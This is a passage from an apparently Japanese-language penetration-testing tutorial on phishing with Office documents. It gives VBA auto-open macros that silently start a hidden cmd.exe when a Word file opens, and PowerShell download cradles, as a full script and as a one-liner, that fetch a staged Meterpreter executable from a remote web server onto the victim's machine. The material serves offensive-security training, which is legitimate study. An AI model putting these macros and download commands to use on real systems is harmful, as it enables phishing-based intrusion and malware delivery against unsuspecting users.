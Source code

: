 マクロを保存してWord文書を再び開くと、この文書ですでにマクロを有効にしているため、セキュリティ警告を出さずにマクロが実行されます。文書名を変更すると、セキュリティの警告が再び表示されます。  
コマンドプロンプトは隠しウィンドウとして開いたため、表示されませんが、実行されていることを確認できます。SysInternalsのProcess Explorerを使用すると、実行中のプロセスの情報、どのハンドルやDLLを開いたりロードしたりしたかを一覧表示できます。この例では、WINWORD.EXEの子プロセスとしてcmd.exeがリストアップされます。


また、Windows Script Host（WSH）を使用してシェルを起動することもできます。これを行うには、CreateObjectメソッドを呼び出してWSHシェルを作成し、そこから Runメソッドを呼び出します。これは複雑に聞こえるかもしれませんが、下記に示されるように簡単です。

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "cmd.exe"
    CreateObject("Wscript.Shell").Run str, 0
End Sub
```

## PowerShellに助けてもらう
これまで、Microsoft Officeに焦点を当て、VBAマクロの非常に基本的な仕組みについて説明してきました。次に、非常に強力で柔軟なPowerShell環境を、WordやExcelの文書を使ったフィッシング攻撃と一緒に使う方法について説明します。  
前項で説明したように、VBAは型を利用したコンパイル型の言語です。一方、PowerShellは.NETフレームワークを介してオンザフライでコンパイル・実行されるため、一般に型を使用せず、より柔軟性があります。  
PowerShellで変数を宣言するには、ドル記号（$）の文字を使うだけである。分岐文やループなどのPowerShellの制御ロジックは、他の多くのスクリプト言語と同様の構文に従います。構文上の最大の違いは、比較にあります。PowerShell は、典型的な == や != 構文を使用せず、代わりに -eq、-ne、および類似の構文を使用します。
PowerShellは、.NETフレームワークにアクセスできるので、外部のWebサーバからコンテンツ（セカンドステージのペイロードなど）をダウンロードするためのダウンロードクレードルなどの特殊な技術を簡単に実装することができます。最も一般的に使用されるバリアントは、Net.WebClientクラスです。

このクラスからオブジェクトをインスタンス化することで、DownloadFileメソッドを呼び出し、Webサーバーから任意のファイルを被害者にダウンロードすることができます。
次の例では、DownloadFileメソッドを呼び出す方法を説明します。まず、完全なスクリプトを作成し、それを1行のスクリプトにまとめます。  
DownloadFileは、ダウンロードされるファイルのURLと出力ファイル名の2つの引数を取ります。下記に示すように、ダウンロード手順全体は、わずか4行のPowerShellで記述することができます。  

まず、ダウンロードするファイルの変数を作成し、次にローカルファイルの名前の変数を作成しています。次に、Net.WebClient クラスをインスタンス化して、ダウンロードクレードルを作成し、そこから DownloadFile メソッドを呼び出してファイルをダウンロードします。この場合、先ほど作成したステージングされたMeterpreter実行ファイルと同じものを使用しました。  

```
$url = "http://192.168.119.120/msfstaged.exe"
$out = "msfstaged.exe"
$wc = New-Object Net.WebClient
$wc.DownloadFile($url, $out)
```

あるいは、この4行を1行に圧縮することも可能です。
```
(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')
```
